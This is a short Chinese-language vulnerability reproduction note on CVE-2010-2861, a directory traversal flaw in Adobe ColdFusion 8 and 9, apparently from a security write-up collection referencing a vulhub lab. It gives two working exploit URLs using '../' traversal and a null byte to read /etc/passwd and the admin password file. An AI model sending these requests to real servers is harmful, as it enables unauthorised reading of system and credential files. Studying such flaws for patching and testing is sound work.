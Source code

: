 ```yaml
---
title: "（CVE-2010-2861）Adobe ColdFusion 文件读取漏洞"
id: zhfly2805
---
```


# （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞

## 一、漏洞简介

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 二、漏洞影响

Adobe ColdFusion 8

Adobe ColdFusion 9

## 三、复现过程

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![image](../img/309c8fe11ad9310ce57bbd1487257533.png)

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![image](../img/9493648f6d2b241211cf9b841c79d04d.png)

## 参考链接

> https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/
